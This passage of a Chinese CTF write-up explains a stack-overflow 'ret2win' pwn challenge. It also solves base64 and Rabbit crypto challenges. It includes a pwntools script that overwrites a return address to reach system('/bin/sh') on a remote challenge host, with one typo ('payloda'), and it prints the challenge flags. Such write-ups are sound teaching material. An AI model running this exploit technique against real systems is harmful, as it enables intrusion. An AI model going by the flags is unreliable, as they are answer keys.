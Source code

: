 ​	丢ida64，程序流程还挺简单。

​	选1听笑话没p用😁😁😁。

[![JvsmLQ.png](https://s1.ax1x.com/2020/05/02/JvsmLQ.png)](https://imgchr.com/i/JvsmLQ)

​	漏洞在input函数，和2048一样，read函数存在溢出。

[![JvsuZj.png](https://s1.ax1x.com/2020/05/02/JvsuZj.png)](https://imgchr.com/i/JvsuZj)

​	而且程序中有一个mistake函数，从来没有用到过，而mistake函数执行了我们想要的system("/bin/sh")。

[![Jvs9Zd.png](https://s1.ax1x.com/2020/05/02/Jvs9Zd.png)](https://imgchr.com/i/Jvs9Zd)

​	而mistake的地址是:0x40089C。

[![JvsFit.png](https://s1.ax1x.com/2020/05/02/JvsFit.png)](https://imgchr.com/i/JvsFit)

​	可以考虑用上题相同的栈溢出和ROP，将input函数的返回地址改成mistake地址。

​	而后系统执行完input函数，发现栈上的返回地址被改成了mistake函数的地址，也就直接执行mistake函数了。

​	脚本如下：

```python
from pwn import *
p = remote('121.41.113.245',10001)
p.recvuntil("What do you say?")
payload='A'*0x30		#填充栈空间
payloda+=p64(0)			#填充旧的rbp(32位为ebp)
payload+=p64(0x40089C)	 #覆盖input函数返回地址
p.send(payload)
p.interactive()
```

flag：flag{3ae15963-fd5c-464c-ba30-299cc5a4e481}



## Crypto

### 0x00 . base64

​		提示为IMG，这题是base64转图片([在线工具](http://tool.chinaz.com/tools/imgtobase/))。

​		解得如下图片：

![JvskJP.png](https://s1.ax1x.com/2020/05/02/JvskJP.png)

​		题目中另外还有一个压缩包，而上述图片是解压密码。

​		解压后打开flag.txt，将字符串base64解码。

​		得到：flag{1s_my_p4ssword_t0o_5imple_?}



### 0x01 . 兔老大

提示就是Rabbit加密，密钥就是rabbit

